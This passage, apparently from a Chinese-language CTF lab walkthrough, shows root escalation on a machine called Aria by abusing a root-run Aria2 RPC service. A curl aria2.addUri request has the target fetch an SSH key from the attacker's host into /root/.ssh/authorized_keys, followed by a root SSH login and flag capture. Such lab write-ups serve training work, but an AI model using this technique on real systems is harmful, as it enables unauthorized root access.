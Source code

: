    服务器成功返回了版本信息，证明token有效，我们已经获得了Aria2 RPC的控制权。

3. **确定利用路径**
   查看Aria2服务的进程信息，发现它是由 `root` 用户启动的。

   ```bash
   www-data@Aria:/home/aria$ ps aux | grep [a]ria2c
   root         374  0.0  0.2  56656  6040 ?        Ss   08:48   0:01 /usr/bin/aria2c --conf-path=/root/.aria2/aria2.conf
   ```

   由于Aria2以root权限运行，并且其RPC接口允许我们指定下载文件的位置和名称，因此我们可以利用它向系统的任意位置写入任意文件，从而实现提权。

## **4.3 获取 Root 权限**

我们的目标是写入自己的SSH公钥到 `/root/.ssh/authorized_keys` 文件中，从而免密登录root账户。

1. **在Kali上准备并提供公钥文件**
   将你的SSH公钥保存为 `authorized_keys` 文件，并通过一个简单的HTTP服务器使其可以被目标主机访问。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ python3 -m http.server 80
   Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
   ```

2. **通过Aria2下载公钥**
   在目标服务器的shell中，发送一个RPC请求，命令Aria2从我们的Kali主机下载 `authorized_keys` 文件，并将其保存到 `/root/.ssh/` 目录下。

   ```bash
   www-data@Aria:/home/aria$ curl -s http://127.0.0.1:6800/jsonrpc \
   >   -H 'Content-Type: application/json' \
   >   -d '{
   >     "jsonrpc":"2.0",
   >     "method":"aria2.addUri",
   >     "id":"add",
   >     "params": [
   >       "token:maze-sec",
   >       ["http://192.168.205.128/authorized_keys"],
   >       { "dir":"/root/.ssh/", "out":"authorized_keys" }
   >     ]
   >   }'
   {"id":"add","jsonrpc":"2.0","result":"d50f7382dd3f927b"}
   ```

3. **SSH登录并获取Flag**
   文件写入成功后，我们现在可以直接以root身份SSH登录到目标主机。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ ssh root@192.168.205.131
   ...
   Last login: Fri Aug 15 01:48:26 2025 from 192.168.1.9
   root@Aria:~# id
   uid=0(root) gid=0(root) groups=0(root)
   root@Aria:~# cat /root/root.txt
   flag{root-374495cbd5d79b6e45b7778cbac070cc}
   ```

成功获取root权限，渗透测试完成。